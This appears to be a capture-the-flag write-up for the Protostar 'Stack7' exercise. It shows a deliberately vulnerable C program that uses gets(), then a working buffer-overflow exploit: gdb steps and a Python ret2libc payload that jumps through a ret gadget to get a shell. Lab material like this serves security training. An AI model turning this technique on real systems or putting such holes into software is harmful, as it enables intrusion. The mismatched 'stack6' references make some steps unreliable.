


# Stack7

## Description 
Stack6 introduces return to .text to gain code execution.
The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
# Solution 
On looking the source code we can see that it is very similar to the previous challenge but this time we cannot directly perform ret2libc attack because it is not allowing to open shell at any address starting with 0xb. So we can do something similar to return oriented programming. We can look out for the address of the ret command.

Then we acan call it in the same place to pop it out from the stack to run the shell. This can be done through the following commands and script. 
```bash
gdb stack7
disassembly getpath
(python /tmp/s/script.py ; cat) | /opt/protostar/bin/stack6
```
### Script.py
```python
import struct

padding = '1'*80
ret = struct.pack("I",0x08048544)
sys = struct.pack("I",0xb7ecffb0)
trap = "aaaa"
bin = struct.pack("I",0xb7fb63bf)

print(padding+ret+sys+trap+bin)
```
